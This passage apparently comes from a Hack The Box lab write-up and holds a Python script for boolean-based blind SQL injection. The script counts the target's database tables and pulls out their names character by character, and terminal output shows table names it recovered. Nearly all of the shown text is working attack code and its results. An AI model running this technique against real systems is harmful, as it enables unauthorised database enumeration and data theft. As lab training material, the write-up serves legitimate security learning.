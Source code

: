 ```python
    print("[*] Finding total number of tables in current database...")
    for i in range(1, max_tables + 1):
        condition = f"(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=database())={i}"
        if is_condition_true(condition):
            print(f"[✔] Number of tables: {i}")
            return i
    print("[!] Could not determine the number of tables.")
    return None

def find_table_name_length(table_index, max_length=50):
    print(f"[*] Finding length of table name at index {table_index}...")
    for length in range(1, max_length + 1):
        condition = f"LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET {table_index}))={length}"
        if is_condition_true(condition):
            print(f"[✔] Length of table {table_index}: {length}")
            return length
    print("[!] Could not determine table name length.")
    return None

def extract_table_name(table_index, length):
    print(f"[*] Extracting table name at index {table_index}...")
    table_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable ASCII
            condition = f"ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET {table_index}), {position}, 1))={ascii_code}"
            if is_condition_true(condition):
                table_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted table name {table_index}: {table_name}")
    return table_name

if __name__ == "__main__":
    table_count = find_table_count()
    all_tables = []
    if table_count:
        for i in range(table_count):
            name_length = find_table_name_length(i)
            if name_length:
                table = extract_table_name(i, name_length)
                all_tables.append(table)
    print(f"\n[✔] All tables: {all_tables}")
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_tables.py
[*] Finding total number of tables in current database...
[✔] Number of tables: 6
[*] Finding length of table name at index 0...
[✔] Length of table 0: 13
[*] Extracting table name at index 0...
...SNIP...
[✔] Extracted table name 0: category_list
[*] Finding length of table name at index 1...
[✔] Length of table 1: 9
[*] Extracting table name at index 1...
...SNIP...
[✔] Extracted table name 1: exam_list
[*] Finding length of table name at index 2...
[✔] Length of table 2: 11
```